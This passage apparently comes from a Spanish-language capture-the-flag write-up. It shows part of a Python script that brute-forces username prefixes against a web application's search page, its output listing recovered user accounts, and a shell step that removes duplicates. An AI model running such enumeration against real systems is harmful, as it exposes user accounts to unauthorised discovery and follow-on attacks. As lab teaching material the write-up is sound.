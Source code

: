 ```python

    if "CONTACT_" not in response.text:
        name = user_regex.search(response.text).group(1)
        print(f"Found user with prefix '{prefix}': | user -> {name}")
        print(h2t.handle(response.text))
        users.append(name)
        return True
    return False

def enumerate_users():
    p = log.progress("Probando")
    for length in range(1, 9):
        for prefix in product(charset, repeat=length):
            prefix_str = ''.join(prefix)
            p.status(prefix_str)
            check_user(prefix_str)

if __name__ == "__main__":
    log.info("Iniciando fuerza bruta")
    enumerate_users()
```

Después de esperar un rato recuperamos algunos usuarios.


```shell
Found user with prefix 'te': | user -> technician
## Search result  
  
Username| Last Name| First Name| Company| Department| Office Phone| Fax|
Mobile| DDI| E-Mail Address| Home Phone  
---|---|---|---|---|---|---|---|---|---|---  
**technician**| |  technician| | | | | | | | 


[*] Saliendo..
[*] Usuarios recuperados 10
amanson
badam
jangel
lzen
technician
amanson
badam
jangel
lzen
technician
```

Quitando los duplicados.

```shell
$ sort users.dup.txt | uniq > users.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/content]
└──╼ [★]$ cat users.txt
amanson
badam
jangel
lzen
pleazkin
technician
```
